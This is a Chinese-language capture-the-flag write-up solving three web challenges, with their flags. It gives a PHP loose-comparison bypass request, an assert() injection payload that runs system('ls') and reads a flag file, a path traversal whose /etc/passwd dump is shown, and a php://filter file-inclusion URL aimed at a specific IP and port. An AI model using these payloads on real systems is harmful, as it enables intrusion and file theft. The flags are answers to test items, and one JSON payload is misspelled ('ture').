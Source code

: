 flag{786OsErtk12}

### lottery

1. 下载附件，是网站源码。网站是玩大乐透，挣钱买flag。
2. 找到关键校验函数buy，有这样一个判断：`if($numbers[$i] == $win_numbers[$i])`
   我们通过json格式上传的七个数字就是numbers数组，可以利用php弱类型绕过，恰好json也支持布尔类型的数据，抓包，改包：

   ```
   {"action":"buy","numbers":[ture,ture,ture,ture,ture,ture,ture]}
   ```

cyberpeace{de7e051e92332af027caa251632e8667}

### mfw

1. 尝试访问robots.txt，无果，访问.git，源码泄露，接着访问第一个文件，COMMIT_EDITMSG文件：

```
I love PHP's typesafety!
```

2. 存在git泄露，使用githack工具下载网页源码，看到这样一段关键代码：

   ```php
   <?php

   if (isset($_GET['page'])) {
   	$page = $_GET['page'];
   } else {
   	$page = "home";
   }

   $file = "templates/" . $page . ".php";

   // I heard '..' is dangerous!
   assert("strpos('$file', '..') === false") or die("Detected hacking attempt!");

   // TODO: Make this look nice
   assert("file_exists('$file')") or die("That file doesn't exist!");

   ?>
   ```

   将传入的参数令strpos闭合即可绕过该处检测，exp：`'.system("ls").'`

   index.php templates index.php templates That file doesn't exist!
3. `page=%27.system("cat%20./templates/flag.php").%27`,看不到flag，但语句是没有问题的，查看页面源码代码，flag被加了注释

cyberpeace{c8ce75784ddde7025e079b7a808c4eeb}

### ics-05

1. 查看网页源代码，发现有两个与后端交互的参数，id，page，测试有无sql注入，sqlmap扫过发现没有，试了一下目录遍历，没想到：

   ```
   root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin libuuid:x:100:101::/var/lib/libuuid: syslog:x:101:104::/home/syslog:/bin/false
   ```
2. page参数有文件包含漏洞，直接读取index.php：`http://61.147.171.105:62844/index.php?page=php://filter/read=convert.base64-encode/resource=../../../../../../var/www/html/index.php`
